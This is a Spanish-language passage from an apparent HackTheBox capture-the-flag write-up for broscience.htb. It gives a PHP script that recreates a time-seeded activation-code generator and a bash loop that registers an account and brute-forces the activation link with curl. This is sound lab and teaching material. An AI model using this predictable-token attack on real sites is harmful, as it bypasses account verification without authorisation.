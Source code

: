 Ya tenemos todo para registrar y activar un usuario. Yo he creado un archivo PHP el cual me genera el link de activación.

> actCode.php

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

echo "https://broscience.htb/activate.php?code=" . generate_activation_code();
```

```
$ php actCode.php;echo
https://broscience.htb/activate.php?code=BovTnt8YAmXeGeuivQpLCQUGkyGBVNqf
```

Ahora creamos un script en BASH que nos haga fuerza bruta y nos active el usuario.

```bash
#!/bin/bash

# CTRL + C
function ctrl_c(){
    echo -e "\n\n[!] Saliendo..\n"
    exit 1
}
trap ctrl_c SIGINT

# username=ch3chu&email=ch3chu%40ch3chu.github.io&password=ch3chu&password-confirm=ch3chu

urlReg='https://broscience.htb/register.php'
username='ch3chu'   # Change me
email='ch3chu@ch3chu.github.io' # Change me
password='ch3chu'   # Change me
passwordC='ch3chu'  # Change me

c=$(curl -s -k -X POST $urlReg -d "username=$username&email=$email&password=$password&password-confirm=$passwordC" | html2text | grep -i 'Account created')

if [[ $c ]]; then
    echo $c
else
    echo -e '[!] Cuenta ya creada o algo a salido mal.\n'
fi

a='Invalid activation code'

while [[ $a ]]; do
    url=$(php actCode.php)
    a=$(curl -s -k X GET "$url" | grep -i 'Invalid activation code')
done

echo -e "[+] Cuenta creada\n"
```
